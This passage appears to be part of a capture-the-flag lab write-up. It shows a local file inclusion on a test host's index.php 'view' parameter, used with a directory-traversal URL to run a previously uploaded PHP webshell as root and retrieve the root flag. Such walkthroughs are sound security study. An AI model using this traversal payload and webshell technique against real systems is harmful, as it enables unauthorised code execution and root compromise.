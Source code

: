 **Looks like LFI:**

```
http://192.168.56.123:8080/index.php?view=about-us.html
```

**Let's see if I can find my nifty webshell to reuse:**

Since the maintenance script copies all uploads to richards web folder, reuse my shell with this process which is running as root.

```
http://192.168.56.123:8080/index.php?view=../../../../../../../../../home/richard/web/upload/files/caf7e7bf96a799f0547469cb698bfb68.php
```

### Neat:

![](/assets/images/dev/dc7.png)

**Checking /root:**

![](/assets/images/dev/dc8.png)

**Getting root flag:**

![](/assets/images/dev/dc9.png)
